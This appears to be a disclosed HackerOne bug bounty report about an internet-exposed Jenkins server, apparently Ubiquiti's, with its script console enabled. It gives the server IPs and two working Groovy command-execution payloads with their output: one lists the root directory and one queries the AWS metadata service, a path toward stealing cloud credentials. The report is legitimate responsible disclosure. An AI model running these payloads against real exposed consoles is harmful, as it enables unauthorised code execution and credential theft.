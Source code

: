 # Public Jenkins instance with /script enabled

## Report Details
- **Report ID**: 403402
- **URL**: https://hackerone.com/reports/403402
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-31T12:05:04.584Z
- **Disclosed**: 2018-09-10T16:21:17.097Z

## Reporter
- **Username**: smiegles
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
Hi,

First of all. I'm not 100% able to verify that this server is actually owned by Ubnt as there are multiple DNS Name's in the SSL certificate.

```
DNS Name: *.uum.com
DNS Name: *.ubnt.com
DNS Name: *.svc.ubnt.com
DNS Name: *.api.uum.com
DNS Name: *.svc.uum.com
DNS Name: uum.com
```

So, the server hosted on https://54.191.232.223/and https://54.186.253.37/is reachable from the internet and has the scirpt console enabled.

You can execute code on it by going to: https://54.186.253.37/script and insert the following code:

```
"ls /".execute().text
```

__result__
````
Result: bin
boot
dev
docker-java-home
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

It also allows reaching the AWS metadata server:

```
"curl http://169.254.169.254/latest/meta-data/".execute().text
```

__Result__

```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
hostname
iam/
instance-action
instance-id
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
```

## Impact

RCE

{F340446}
{F340447}

## Attachments
- Screen_Shot_2018-08-31_at_14.04.12.png
- Screen_Shot_2018-08-31_at_14.04.26.png
